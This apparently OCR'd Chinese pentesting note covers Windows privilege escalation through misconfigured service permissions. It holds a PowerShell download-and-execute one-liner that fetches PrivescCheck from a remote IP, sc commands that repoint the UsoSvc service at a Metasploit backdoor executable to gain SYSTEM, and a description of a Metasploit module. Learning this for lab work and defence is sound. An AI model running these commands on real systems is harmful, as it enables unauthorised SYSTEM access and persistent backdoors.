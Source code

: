 3.复现

1、 https://github.com/itm4n/PrivescCheck

```
powershell -nop -exec bypass -c "IEX (New-Object
Net.WebClient).DownloadString('http://192.168.0.106/PrivescCheck.ps1'); InvokePrivescCheck"
```

<img src=".\图片\Snipaste_2023-02-14_14-09-25.png" alt="Snipaste_2023-02-14_14-09-25" style="zoom:80%;" />

`NT AUTHORITY\Authenticated Users` 普通用户也能设置文件 普通用户可以对usosvc服务进行设置 s.exe是msf的后门程序

```
sc stop UsoSvc
sc config usosvc binPath= "C:\s.exe"
sc start UsoSvc
```

创建服务命令

```
sc create test start= auto binPath="C:\1.exe"
```

2.Metasploit中的攻击模块 exploit/windows/local/service_permissions

service_permissions模块会使用 两种方式获取system权限 如果以管理员权限运行 会尝试创建并运行一 个新的服务 如果当前权限不允许创建服务 会判断哪些服务的文件或文件夹的权限有问题 并对其进行劫 持 在劫持服务时会创建一个可执行程序 其文件名和安装路径都是随机的

<img src=".\图片\Snipaste_2023-02-14_14-11-22.png" alt="Snipaste_2023-02-14_14-11-22" style="zoom:80%;" />
